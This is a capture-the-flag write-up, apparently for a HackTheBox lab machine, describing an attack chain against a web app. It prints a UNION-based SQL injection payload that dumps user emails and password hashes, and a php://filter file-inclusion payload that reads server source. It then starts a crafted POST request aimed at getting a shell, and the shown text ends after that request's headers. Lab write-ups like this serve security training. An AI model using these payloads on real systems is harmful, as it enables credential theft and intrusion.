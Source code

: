 Playing the game you'll get your username on the scoreboard. As said in the forum this is our entrypoint for some injections.
Fuzzing around with our username we found that there is a SQL Injection using `UNION SELECT` with 3 coloumns possible.
```
test') OR 1=1 UNION SELECT 1,email,password FROM users-- -
```
This gives us the password hashes and corresponding usernames.
![hash](hash.png)
Searching for the hash of the admin we got a hit online: `gameover`.
Now we can log in as admin with a password instead of stolen cookies.

At the dev page we have hashing functionalities and file-tools whose "UI is not implemented yet".

Since the hashing something uses a file called `hash.php` we just assumed that `file.php` is propably the filename for the file-tools. We then found out with FFUF the parameter to request a file to be `filepath`. We could then include the `hash.php` with this payload: `file.php?filepath=php://filter/convert.base64-encode/resource=hash.php`
Lookint at [the hash.php](hash.php) we crafted a request for that hashing functionality to get a shell:
```
POST /actions/hash.php HTTP/1.1
Host: dev.earlyaccess.htb
Content-Length: 100
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dev.earlyaccess.htb
Content-Type: application/x-www-form-urlencoded
```